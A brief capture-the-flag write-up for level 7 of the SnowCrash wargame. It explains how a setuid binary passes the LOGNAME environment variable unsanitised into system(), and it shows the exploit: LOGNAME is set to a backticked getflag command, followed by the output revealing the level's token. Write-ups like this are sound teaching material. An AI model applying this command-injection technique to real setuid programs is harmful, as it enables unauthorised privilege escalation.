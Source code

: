 # LEVEL 7

First we reverse the binary to understand the general control flow of the program
- Setuid/gid (! important, thats what allow us to execute higher level command on our code injection) 
- got content from env var LOGNAME
- Then sent it to asprintf with %s to write it to str
- Then printed it with system /bin/echo str
- We needed str to evaluate to getflag since system was launching it

#### we simply do a code injection via the environnement variable :

```
export LOGNAME=\`getflag\`
./level07
```
```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
